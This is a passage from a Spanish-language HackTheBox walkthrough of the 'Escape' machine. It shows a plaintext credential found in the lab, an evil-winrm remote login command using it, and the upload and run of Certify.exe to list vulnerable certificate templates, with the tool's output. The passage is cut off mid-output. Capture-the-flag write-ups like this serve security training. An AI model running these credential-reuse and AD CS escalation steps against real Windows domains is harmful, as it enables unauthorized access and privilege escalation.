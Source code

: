 ![](/assets/images/HTB/Escape-HackTheBox/11.webp)

Ahí podemos ver credenciales del usuario `Ryan.Cooper:NuclearMosquito3`, por lo que trato de acceder con estas credenciales a la máquina a través de evil-winrm como anteriormente.

```bash
ruby evil-winrm.rb -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```

![](/assets/images/HTB/Escape-HackTheBox/12.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Ahora ya toca migrar al usuario administrador, es decir, toca escalar privilegios.

Para escalar privilegios subo el archivo Certify.exe ya compilado para buscar plantillas de certificados vulnerables.	

Lo lanzo con el siguiente comando y me arroja toda la información.

```ruby
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'

[*] Listing info about the Enterprise CA 'sequel-DC-CA'

    Enterprise CA Name            : sequel-DC-CA
    DNS Hostname                  : dc.sequel.htb
    FullName                      : dc.sequel.htb\sequel-DC-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
    Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
    Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Cert Start Date               : 11/18/2022 12:58:46 PM
    Cert End Date                 : 11/18/2121 1:08:46 PM
    Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal
```